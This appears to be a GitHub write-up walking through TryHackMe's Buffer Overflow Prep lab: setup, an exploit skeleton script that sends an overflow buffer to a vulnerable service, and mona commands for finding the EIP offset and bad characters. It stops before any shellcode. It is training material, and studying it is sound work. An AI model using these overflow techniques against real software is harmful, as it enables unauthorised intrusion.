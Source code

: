 # Buffer-Overflow-Prep
We're going to learn how to solve 3 tryhackme's stack buffer overflow.

This is the link to the Tryhackme Machine: https://tryhackme.com/room/bufferoverflowprep

# Things that you will need:
You will need x32dbg made by therealdreg: https://github.com/therealdreg/x64dbg-exploiting

![18eaa8e03e02775805ec70f088604676](https://user-images.githubusercontent.com/107114264/172813095-fe046a17-6719-4120-8352-da0edd872b47.png)

You will need your OpenVPN from Tryhackme: https://tryhackme.com/access

You will need wfreerdp to get "vulnerable_apps.zip"

You can get it from here: https://ci.freerdp.com/job/freerdp-nightly-windows/arch=win32,label=vs2013/

![e73bc927e928e9aac8a53960cfb34a08](https://user-images.githubusercontent.com/107114264/172813224-afe081bd-5f97-4884-8ff5-bf6efacc240c.png)

# First Steps

Start the machine in Tryhackme.

Open your OpenVPN and wait to connect to the machine, so we can work.

After downloading it all, We will need to execute this comand on cmd: ```wfreerdp.exe /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea```

![11fd449aa4140dac4f71db16bbe012b2](https://user-images.githubusercontent.com/107114264/172813316-f4f55eed-8421-49b3-a10e-d47a15744c63.png)

Once we connect to the Tryhackme Machine, we can start to work!

On the Desktop is "vulnerable_apps", so we can right click it and make it a zip.

![ddf3a6b17b9494a291f4f5c02fa15903](https://user-images.githubusercontent.com/107114264/172813456-1d48a157-0db1-4318-ab0e-f783d043ce3d.png)

Then in the windows machine we can found that we can use Python27 then we can get "vulnerable_apps.zip" via http server.

So knowing this we use on the cmd: ```c:\Python27\python.exe -m SimpleHTTPServer```

![8ec396ffd688f7e79111b8edcfb31b3c](https://user-images.githubusercontent.com/107114264/172813714-21f1834b-c1f7-427f-8be5-53e17b18a5e7.png)

Back on your Windows search on google: ```MACHINEIP:8000```

![88368624e10a140e81068e70fcea41ac](https://user-images.githubusercontent.com/107114264/172813764-2c763235-a61e-409a-9f95-f42d1633eb50.png)

Download "vulnerable_apps.zip" and unzip it.

# Using x32dgb

We will need a script to execute an exploit on the "oscp.exe"

Tryhackme give us this:

```
import socket

ip = "MACHINE_IP" # Here introduce 127.0.0.1 for local or TryHackme's Machine IP
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

We will start trying the exploit doing it in local, so we neet to introduce in the parameter "ip" 127.0.0.1

Run the program, and open the file "oscp.exe" it is in this path: ```vulnerable-apps/vulnerable-apps/oscp/oscp.exe```

![7ee528397d8b95aa959aefcb51bca05b](https://user-images.githubusercontent.com/107114264/172813897-8acd7445-cc62-477b-a8bd-76b0c54b1e57.png)

Then you will see something like this:

![a5255baed8f1aee8570dc9f6c68715b7](https://user-images.githubusercontent.com/107114264/172813954-e74866ba-fb19-4a08-894f-314c7c8fe6c5.png)

# Useful codes for x32dgb using mona

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
--------------------------------------------------------------------------------

mona.mona("pattern_create 2000")

mona.mona('bytearray -cpb "\\x00"')

mona.mona('compare -f C:\\logs\\oscp\\bytearray.bin -a ESP')

mona.mona("pattern_offset EIP")

mona.mona("jmp -r esp") 
```

# Starting with x32dgb on "oscp.exe"

Go to Log inside of x32dgb when "oscp.exe" it's open and execute this 3 commands one by one:

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
```
You need to do this everytime you turn on your pc.

If you do this all right you'll see this with our last command:

![68747470733a2f2f692e706f7374696d672e63632f30354352664377622f63633539336462653365376136616236373364323766653165346331653163372e706e67](https://user-images.githubusercontent.com/107114264/172814087-bdf926aa-dee6-46ff-bd1b-a6929002b021.png)

Now, we need to create a pattern, so we can know how much bytes can we put to get to EIP.

```mona.mona("pattern_create 2000")``` Enter this in "Log".

You should see this:

![68747470733a2f2f692e706f7374696d672e63632f7443306b733054362f63316539636266333465313931346632353034633134393836313833376333322e706e67](https://user-images.githubusercontent.com/107114264/172814137-fca95bcb-efc8-48b7-8aa1-53f4e51b23a0.png)

Restart and Run your program a few times till it open this will be done everytime that we change the file.py

You need to execute your python3 in your cmd like this: ```c:\YOUR_PATERN_PYTHON3\python.exe YOUR.PY```

![68747470733a2f2f692e706f7374696d672e63632f70546a42566b44782f63356630383331386230343733653062346366353932326238313438333232372e706e67](https://user-images.githubusercontent.com/107114264/172814252-c90ba69d-1391-4960-9423-28d24e7259de.png)

Now in "Log" we need to execute the command: ```"mona.mona("pattern_offset EIP")"``` 

This gonna compare our pattern to get how much bytes we need to get to EIP.

![68747470733a2f2f692e706f7374696d672e63632f6e7a4c74366a37762f36363332363039636533316337383664306466303662333265643064306436322e706e67](https://user-images.githubusercontent.com/107114264/172814398-c35acbcf-8b0e-49c0-ad0a-81fe62a6e0e0.png)

We see that we need 1978 bytes to get to EIP so we gonna put this on payload: (\x41 means A in ASCII and \x42 means B in ASCII )

![68747470733a2f2f692e706f7374696d672e63632f3835714e4d6b4a4d2f39353039303732626665383239373434653938313863376437633139343461382e706e67](https://user-images.githubusercontent.com/107114264/172814439-1350d8d3-d29d-4cf2-aa62-3098b7117036.png)

We need to restart "oscp.exe" and run it till it's open. Execute your file.py and you should see this on EIP:

![68747470733a2f2f692e706f7374696d672e63632f686a7142704431422f36356461643237376566306137323964633563633035623233353334306639612e706e67](https://user-images.githubusercontent.com/107114264/172814511-c2daadc4-8b32-4f28-a4b0-3563dd57d41f.png)

We can see here "\x41" and "\x42" at the top of the stack.

![68747470733a2f2f692e706f7374696d672e63632f51435177433132392f34393434333339346234626365313465363763336362343562643264373535642e706e67](https://user-images.githubusercontent.com/107114264/172814547-d01bd689-f46b-4ebd-9285-2db02233b7dd.png)

If you can see this, all is going good! Well done!

Now it's time to search badchars

# Searching Badchars

Go to "Log", execute: ```mona.mona('bytearray -cpb "\\x00"')``` 

This will create a payload without the badchat \x00 that we asume that it's a badchar.

![68747470733a2f2f692e706f7374696d672e63632f786450327072784e2f61633166663261623064663933666162373765326336303036643066303931642e706e67](https://user-images.githubusercontent.com/107114264/172814639-417964e3-f4ce-4ac3-ad2c-fd33f4a20a6f.png)

Paste it all into payload under ```payload+= "\x42" * 4``` 

All like this:

![68747470733a2f2f692e706f7374696d672e63632f79644334315a42772f65393164633731343934376632656238393631353961383136626334653934622e706e67](https://user-images.githubusercontent.com/107114264/172814675-c38d811d-f6b9-4fa4-9208-02d1810eb004.png)

Now, We need to restart the program and run it again to execute our payload with the file.py

Every time you need to check that EIP got our 4 "\x42"(B).

Afther that go to the bottom zone and right click go to expresion : "esp"

![4fceda96673b99b5a5d7dadab39990bb](https://user-images.githubusercontent.com/107114264/172812663-6484278d-5063-4464-ae04-a44f765bf10b.gif)


